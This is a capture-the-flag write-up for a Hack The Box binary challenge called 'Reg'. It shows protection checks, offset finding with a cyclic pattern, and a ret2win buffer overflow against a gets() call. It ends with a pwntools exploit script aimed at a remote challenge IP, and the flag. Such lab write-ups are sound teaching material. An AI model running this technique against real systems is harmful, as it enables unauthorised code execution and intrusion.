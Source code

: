 # Reg
> Write-up author: jon-brandy
## DESCRIPTION:
This is a basic buffer flow exploit. Try to get the flag.
## HINT:
- NONE
## STEPS:
1. First, unzip the `.zip` file given.
2. Next, check the file type we got.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/209469022-868db7be-e8d4-4678-a528-9f0bd0b2a919.png)


3. It's a 64 bit binary file, dynamically linked and **not stripped**. Since it's not stripped, hence it's easier for us debug or identify the function.
4. Now, check the binary's protection.

> RESULT 

```
No canary Found (means we can do bufferoverflow concept).
No PIE (means a binary and all of it's dependencies are loaded not in random locations within virtual memory each time the application executed).
Partial RELRO (some sections of the binary are read only, preventing them from being modified).
```

![image](https://user-images.githubusercontent.com/70703371/209469053-3655c77c-d080-476a-97e9-3b6bbe2ff4b4.png)


5. Now run the file in gdb.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/209469202-3e2f98a8-6865-4bcf-95b2-6b3bfc7e5907.png)


6. Let's enter 1024 cyclic pattern.

> RESULT - GOT SEGMENTATION FAULT

![image](https://user-images.githubusercontent.com/70703371/209469249-07d78d45-4722-47cf-a3bc-ba148c4871d3.png)


7. To find the correct bytes to overflow the buffer, copy all the RSP characters.
8. Then run this command -> `cyclic -l haaaaaaa`.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/209470737-928138e2-e96a-4c8f-8992-b8f2f0240da8.png)


9. 48 Bytes.
10. Let's decompile the file with ghidra.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/209469351-4d3d9e29-06ec-4204-9fdd-75d9879d3b34.png)


11. Check the `run()` function.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/209469676-7f32d029-9e29-4992-8d04-595a7ccf0221.png)


12. Based from the decompiled binary we got, the vuln is at the `gets()` function.
13. Notice there's a function named `winner()`.

![image](https://user-images.githubusercontent.com/70703371/209469428-a99621bc-4522-4f3c-9b18-65a419ea11c4.png)


![image](https://user-images.githubusercontent.com/70703371/209469656-afe9be66-2a62-46f1-a886-c0ad14f48bf7.png)



14. The concept here is ret2win, we can control the return address to the `winner()` function by overflow the buffer.
15. Now get the `winner()` address.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/209469477-2d32a529-e4c5-4779-89d1-5c81ea270f00.png)


16. Convert that to decimal.
17. Here's our script so far.

> THE SCRIPT

```py
from pwn import *
import os

os.system('clear')
context.log_level = 'debug'
sh = remote('206.189.28.76',30687)
p = b'A' * 56
winAddr = 4198918 #0x401206
p += p64(winAddr)
sh.sendlineafter(b': ', p)
sh.interactive()
```

> OUTPUT

![image](https://user-images.githubusercontent.com/70703371/209469851-78320b70-54f0-4fe9-aedc-0ba8b378f3c5.png)


21. Got the flag!

## FLAG

```
HTB{N3W_70_pWn}
```
